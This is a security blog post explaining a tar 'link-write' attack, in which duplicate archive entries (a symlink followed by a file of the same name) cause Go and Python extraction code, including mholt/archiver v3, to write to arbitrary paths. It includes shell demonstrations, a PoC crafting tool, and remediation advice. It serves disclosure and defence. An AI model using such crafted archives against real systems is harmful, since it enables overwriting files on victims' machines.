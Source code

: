 ```yaml
---
title: "Sweet combination: Link-write Attack during extraction"
draft: false
date: 2024-08-09T08:20:36+02:00
tags:
- attack
- tar
- golang
- python
---
```


I've recently been working on some exciting development projects, including a deep dive into archive extraction. During this work, I discovered some fascinating behaviours that I'm thrilled to share with you in the following sections.

<!--more--> 

_**TL;DR:**_ Tar archives can contain multiple entries with the same filename. It is important to note that Golang follows symlinks while calling [`os.Create(name string) (*File, error)`](https://pkg.go.dev/os#Create). This combination can lead to arbitrary writes during file extraction.

## Observations

### Repeating name in tar files

First of all, an archive can contain multiple entries with the same name. Lets take for example the tar file `alice.tar` (created with [ref](https://go.dev/play/p/7TjHUzQLuL8)). The file contains two entries:

```shell
$ tar ztvf alice.tar
lrw-------  0 0      0           0  1 Jan  1970 rabbit_hole -> /tmp/wonderland
-rw-r--r--  0 0      0          39  1 Jan  1970 rabbit_hole

```

The first entry is a symlink, the second is a legit text file. If this archive is extracted with the `tar` cli, the symlink  is extracted and afterwards replaced by the text file:

```shell
$ tar xvf alice.tar
x rabbit_hole
x rabbit_hole

$ ls -l
total 24
-rw-r--r--  1 jan  staff   2,5K  9 Aug 17:33 alice.tar
-rw-r--r--  1 jan  staff    39B  1 Jan  1970 rabbit_hole

$ file rabbit_hole
rabbit_hole: ASCII text, with no line terminators
```

Let's keep that behavior for now in mind and let us step to the next interesting observation.

### File creation in Golang

Files can be created in Golang with [os.Create(name string) (*File, error)](https://pkg.go.dev/os#Create). Data can then be written to the file and it can be closed. [The documentation says](https://pkg.go.dev/os#Create:~:text=Create%20creates%20or%20truncates%20the%20named%20file.%20If%20the%20file%20already%20exists%2C%20it%20is%20truncated.%20If%20the%20file%20does%20not%20exist%2C%20it%20is%20created%20with%20mode%200666%20(before%20umask).):

> Create creates or truncates the named file. If the file already exists, it is truncated. If the file does not exist, it is created with mode 0666 (before umask).

The interesting thing about this function is that the given `name` can be an existing file (or even better: a symlink!). My first expectation was that the symlink would be replaced/truncated and replaced with the contents of the file - similar to `tar`cli behaviour.

I implemented such behaviour in [Golang](https://go.dev/play/p/kunYCVn-_Zp) and in [Python](https://www.online-python.com/WAhSH75ia2) and it turned out that if we pass a symlink to the create function, the symlink is traversed and the content is written to the target!

Funny, right? 😃

## Verification of assumption

To verify my assumption, I picked a wide-spread existing OSS extraction implementation for archives in Golang – [mholt/archiver@v3](https://github.com/mholt/archiver/tree/v3-deprecated) – which is straightforward to use ([full code example](https://go.dev/play/p/NPqSWEOWphV)):  

```golang
// parse command line arguments
input := os.Args[1]
output := os.Args[2]

// unarchive the file
archiver.Unarchive(input, output)

// print the result
fmt.Printf("Unarchived %s to %s\n", input, output)
```

If we use this simple code snipped to extract our previous crafted archive, we get following result:

```
$ go run ./main.go alice.tar .
Unarchived alice.tar to .

$ ls -l
total 24
[...]
-rw-r--r--  1 jan  staff   299B  9 Aug 18:31 main.go
lrwxr-xr-x  1 jan  staff    15B  9 Aug 18:38 rabbit_hole@ -> /tmp/wonderland

$ cat /tmp/wonderland
Hello Alice, welcome to the wonderland!

```

So, we are capable of archiving an arbitrary write to the filesystem, by traversing the link during the file creation process.



## PoC tool: golinkwrite

If you want to create a potential malicious archive, feel free to use [NodyHub/golinkwrite](https://github.com/NodyHub/golinkwrite) to craft your own tar archives with double entries: 

```shell
$ echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

$ golinkwrite -v rabbit_hole.txt /tmp/hi.txt alice.tar
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.tar Verbose:true}"
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input size" size=20
time=2024-08-09T19:11:35.266+02:00 level=INFO msg="tar file created" output=alice.tar

$ tar ztvf alice.tar
lrw-r--r--  0 0      0           0  1 Jan  1970 rabbit_hole.txt -> /tmp/hi.txt
-rw-r--r--  0 0      0          20  1 Jan  1970 rabbit_hole.txt
```

## Remediation

The root-cause of this behaviour is that symlinks are traversed during extraction. You can either implement your own checks or use Google's implementation: [google/safearchive](https://github.com/google/safearchive) to ensure that symlinks from an archive are not traversed during extraction. More details can be found in the blog post [The Family of Safe Golang Libraries is Growing!](https://bughunters.google.com/blog/4925068200771584/the-family-of-safe-golang-libraries-is-growing).